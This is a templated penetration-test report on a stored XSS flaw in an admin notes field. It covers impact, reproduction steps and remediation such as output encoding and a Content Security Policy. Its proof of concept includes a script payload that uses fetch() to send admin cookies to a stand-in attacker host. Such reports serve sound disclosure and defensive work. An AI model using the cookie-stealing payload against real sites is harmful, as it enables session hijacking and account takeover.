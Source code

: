 # Penetration Testing Writeup: XSS in Admin Panel

## Executive Summary

A Stored Cross-Site Scripting (XSS) vulnerability was found in [Target
Application]’s admin panel during a penetration test. This allows attackers to
inject scripts into admin inputs, affecting admin users. This report details the
issue and remediation steps.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - Stored
- **Severity**: Critical
- **Affected Component**: Admin note field
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/admin/notes`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 30, 2025

### Description

The admin note field does not sanitize inputs before storing and displaying
them, allowing script execution in the admin panel.

### Impact

- **Admin Account Takeover**: Admin cookies can be stolen.
- **Data Exfiltration**: Admin data can be sent to attackers.
- **Phishing**: Fake forms can capture admin credentials.
- **System Compromise**: Admin access can lead to full system control.

### Proof of Concept

1. In the admin panel, add a note: `<script>alert('Stored XSS');</script>`.
2. View the note and observe the alert.
3. Malicious payload:
   `<script>fetch('https://attacker.com/steal?cookie='+document.cookie);</script>`.

### Steps to Reproduce

1. Log in to `https://[target-application]/admin/notes`.
2. Add a note with `<script>alert('Stored XSS');</script>`.
3. View the note to confirm the alert.

## Remediation Recommendations

1. **Input Sanitization**:
   - Use OWASP AntiSamy for note inputs.
2. **Output Encoding**:
   - Encode notes before rendering.
3. **Content Security Policy**:
   - Apply CSP: `Content-Security-Policy: script-src 'self';`.
4. **Secure Development**:
   - Train admins and developers on XSS prevention.
5. **Security Testing**:
   - Conduct regular audits.

## Conclusion

The Stored XSS vulnerability in [Target Application]’s admin panel is critical
and requires immediate remediation.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

![Admin XSS Example](https://example.com/images/admin-xss-example.png)
